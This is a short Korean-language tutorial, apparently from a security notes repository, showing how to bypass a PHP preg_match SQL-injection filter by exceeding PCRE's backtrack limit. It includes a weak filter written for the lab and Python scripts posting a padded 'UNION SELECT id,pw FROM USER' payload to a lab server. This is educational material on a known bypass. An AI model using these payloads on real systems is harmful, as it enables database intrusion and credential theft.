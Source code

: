 # PCRE Bypass

[PCRE](https://ko.wikipedia.org/wiki/%ED%8E%84_%ED%98%B8%ED%99%98_%EC%A0%95%EA%B7%9C_%ED%91%9C%ED%98%84%EC%8B%9D)(Perl Compatible Regular Expressions)의 검사 수 제한(catastrophic backtracking)을 이용하여 우회

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [preg_match](#preg_match)**

# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.108.174           |
| apache2       | 2.4.41-4ubuntu3.10        |
| php           | 7.4.3                     |

apache와 php를 사용하기 위해 관련 패키지를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php
```

preg_match를 이용하여 SQLi를 방어하는 코드를 적용하였다.

```php
<?php
if(preg_match('/UNION.+?SELECT/i', $_POST['sql'])) die('SQL Injection');
else echo "pass";
?>
```

pcre의 최대 검사 수를 확인해보자.

```sh
user@user:/var/www/html$ php -r "var_dump(ini_get('pcre.backtrack_limit'));"
string(7) "1000000"
```

# **preg_match**

다음의 sql문을 전달하면 preg_match에 의해서 if문으로 들어간다.

```python
import requests

url = 'http://192.168.108.174/index.php'
data = {'sql': 'UNION SELECT id,pw FROM USER -- '}
res = requests.post(url=url, data=data)
print(res.text)
```

하지만 backtrack_limit 보다 큰 데이터를 전송하면 preg_match의 결과가 false(0)으로 반환되어 else문으로 우회할 수 있다.

```python
import requests

url = 'http://192.168.108.174/index.php'
data = {'sql': 'UNION /*'+'a'*1000000+'*/ SELECT id,pw FROM USER -- '}
res = requests.post(url=url, data=data)
print(res.text)
```